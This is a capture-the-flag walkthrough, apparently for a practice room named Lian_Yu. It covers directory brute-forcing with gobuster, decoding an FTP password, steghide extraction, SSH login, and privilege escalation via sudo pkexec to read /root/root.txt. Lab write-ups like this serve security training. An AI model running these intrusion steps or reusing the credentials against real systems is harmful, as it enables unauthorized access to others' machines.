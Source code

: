 # Lian\_Yu

### **What is the Web Directory you found?**

```
nmap 10.10.219.116
```

![](<../../.gitbook/assets/Screenshot from 2020-09-16 14-08-26.png>)

```
gobuster dir -u http://10.10.219.116/ \
             -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt \
             -t64
```

![](<../../.gitbook/assets/Screenshot from 2020-09-16 14-12-45.png>)

```
gobuster dir -u http://10.10.219.116/island \
             -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt \
             -t64
```

![](<../../.gitbook/assets/Screenshot from 2020-09-16 14-22-29.png>)

### **what is the file name you found?**

![](<../../.gitbook/assets/Screenshot from 2020-09-16 14-25-54.png>)

```
gobuster dir -u http://10.10.219.116/island/2100 \
             -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt \
             -t64 -x .ticket
```

![](<../../.gitbook/assets/Screenshot from 2020-09-16 14-27-20.png>)

### **what is the FTP Password?**

```
echo -n 'RTy8yhBQdscX' | base58 -d
```

![](<../../.gitbook/assets/Screenshot from 2020-09-16 14-35-50.png>)

### **what is the file name with SSH password?**

![](<../../.gitbook/assets/Screenshot from 2020-09-16 14-42-01.png>)

```bash
lftp 10.10.219.116 -u 'vigilante,!#th3h00d'
lftp :~> ls -a
lftp :~> get Leave_me_alone.png
lftp :~> get Queen's_Gambit.png
lftp :~> get aa.jpg
lftp :~> cat .other_user
```

![](<../../.gitbook/assets/Screenshot from 2020-09-16 15-15-51.png>)

```
hexeditor Leave_me_alone.png
steghide extract -sf aa.jpg
unzip ss.zip
cat shado
```

![](<../../.gitbook/assets/Screenshot from 2020-09-16 14-49-29.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-16 14-52-16.png>)

### **user.txt**

```
ssh slade@10.10.219.116 cat user.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-16 15-17-11.png>)

### **root.txt**

```
sudo -l
sudo /usr/bin/pkexec cat /root/root.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-16 15-18-57.png>)
